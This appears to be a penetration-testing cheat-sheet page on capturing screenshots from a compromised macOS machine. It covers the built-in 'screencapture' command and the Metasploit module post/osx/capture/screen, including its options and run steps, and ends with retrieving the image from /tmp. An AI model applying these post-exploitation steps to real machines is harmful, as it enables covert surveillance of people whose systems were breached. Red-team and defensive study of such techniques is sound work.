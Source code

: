 # Screenshot

Search Tag(s): #post-exploitation #enumeration-and-discovery #living-off-the-land #metasploit-framework #osx

### 1.1 - Manual

Mac OSX Screenshot program

```
$ screencapture
```

### 1.2 - Metasploit

You can use a metasploit module as well and if you type `info` you can run a session type that it can be either a regular **Shell** or a **Meterpreter**.

```
msf > use post/osx/capture/screen

msf post(osx/capture/screen) > options

Module options (post/osx/capture/screen):

   Name      Current Setting          Required  Description
   ----      ---------------          --------  -----------
   COUNT     1                        yes       Number of screenshots to collect.
   DELAY     10                       yes       Interval between screenshots in seconds. 0 for no delay
   EXE_PATH  /usr/sbin/screencapture  yes       Path to remote screencapture executable
   FILETYPE  png                      yes       File format to use when saving a snapshot (Accepted: png, gif)
   SESSION                            yes       The session to run this module on
   TMP_PATH  /tmp/<random>            yes       Path to remote temp directory

msf post(osx/capture/screen) > set session <session_ID>

msf post(osx/capture/screen) > run
```

Once you've took a screenshot download the file in the compromised Mac OSX machine that was stored in the `/tmp/` folder.

---
## References

- [LOOBins: Screencapture](https://www.loobins.io/binaries/screencapture/)